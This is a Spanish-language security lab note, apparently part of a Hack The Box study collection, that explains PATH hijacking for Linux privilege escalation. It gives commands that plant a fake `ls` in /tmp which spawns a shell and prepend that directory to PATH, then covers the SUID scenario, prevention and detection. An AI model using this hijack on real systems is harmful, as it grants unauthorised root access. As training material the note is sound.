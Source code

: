 
---
# Laboratorio: PATH Hijacking para escalada de privilegios

**Nota:** para un ejemplo en una máquina de *Hack The Box* ver [Previse](../../Machines/HTB/CommandInjection/Previse.md)

---

## ¿Qué es el PATH Hijacking?

> El PATH Hijacking es una técnica que consiste en manipular la variable de entorno `PATH` con el objetivo de secuestrar la ejecución de comandos en sistemas Unix/Linux. La variable `PATH` define el conjunto de directorios donde el sistema busca los binarios ejecutables cuando se invoca un comando sin especificar su ruta absoluta.

---

## Riesgo del PATH Hijacking

Cuando un binario (especialmente con privilegios SUID o ejecutado por el sistema) llama a otro comando utilizando una **ruta relativa** (por ejemplo, simplemente `ls` en vez de `/bin/ls`), el sistema buscará ese binario en los directorios definidos por `PATH`.

Si como atacantes tenemos la posibilidad de modificar esa variable `PATH` y colocar antes una ruta controlada por nosotros (por ejemplo, un directorio temporal donde colocamos un binario malicioso llamado `ls`), entonces el sistema ejecutará **nuestro binario falso** en lugar del original.

Esto nos permite ejecutar código arbitrario con los privilegios del binario que nos llama, lo que puede resultar en una escalada de privilegios.

---

## Ejemplo práctico: Simulando PATH Hijacking

### Acción:

Creamos un entorno controlado donde un script vulnerable llama a un comando con ruta relativa. Por ejemplo:

```bash
#!/bin/bash
echo "Ejecutando listado:"
ls
````

Guardamos esto como `script_vulnerable.sh`.

### Simulamos una situación donde `PATH` contiene primero un directorio que controlamos:

```bash
mkdir /tmp/malicioso
echo -e '#!/bin/bash\necho "Comando secuestrado"\n/bin/bash' > /tmp/malicioso/ls
chmod +x /tmp/malicioso/ls
```

Ahora modificamos la variable `PATH` para que primero busque en `/tmp/malicioso`:

```bash
export PATH=/tmp/malicioso:$PATH
```

Y ejecutamos el script:

```bash
./script_vulnerable.sh
```

### Resultado:

```bash
Ejecutando listado:
Comando secuestrado
bash-5.1$
```

---

### Explicación:

- El script vulnerable invoca `ls` sin especificar la ruta absoluta.
    
- Como el sistema busca primero en `/tmp/malicioso`, ejecuta nuestro binario falso `ls`.
    
- En este ejemplo, nuestro `ls` falso simplemente abre una shell.
    

---

## Escenario realista: Binario con SUID que ejecuta comandos sin rutas absolutas

Si un binario con el bit SUID activado ejecuta comandos sin rutas absolutas, y conseguimos controlar su entorno (por ejemplo, ejecutándolo desde un script `cron`, o mediante un exploit que nos permita alterar `PATH`), entonces podemos conseguir que ejecute un binario malicioso nuestro con privilegios de `root`.

Esto representa una amenaza crítica para la seguridad del sistema.

---

## Prevención y buenas prácticas

- **Utilizar rutas absolutas** en todos los comandos dentro de scripts o binarios ejecutados con privilegios elevados.
    
- **Limitar y auditar** las rutas que aparecen en la variable `PATH`, especialmente para usuarios privilegiados.
    
- **Evitar ejecutar scripts como root** que puedan ser manipulados o que no tengan rutas seguras.
    
- **Auditar binarios SUID** que usen rutas relativas mediante técnicas como el análisis estático o dinámico.
    

---

## Comandos útiles para detección

- Ver el contenido de `PATH`:
    

```bash
echo $PATH
```

- Buscar scripts que contengan llamadas a comandos sin rutas absolutas:
    

```bash
grep -rE '^[^#]*\s+(ls|cp|mv|rm|cat|bash|sh)\s' /ruta/a/scripts/
```

- Analizar binarios SUID en busca de uso de comandos relativos (requiere herramientas de análisis binario como `strace`, `ltrace`, o depuración con `gdb`).
    

---

# Resumen

El PATH Hijacking es una técnica peligrosa que se aprovecha del uso descuidado de rutas relativas en entornos privilegiados. Si conseguimos manipular el entorno de ejecución y colocar binarios maliciosos antes en el `PATH`, podemos secuestrar la ejecución de comandos legítimos y obtener acceso elevado al sistema. Esta técnica, combinada con scripts inseguros o binarios SUID mal implementados, puede ser decisiva en una cadena de escalada de privilegios.

---
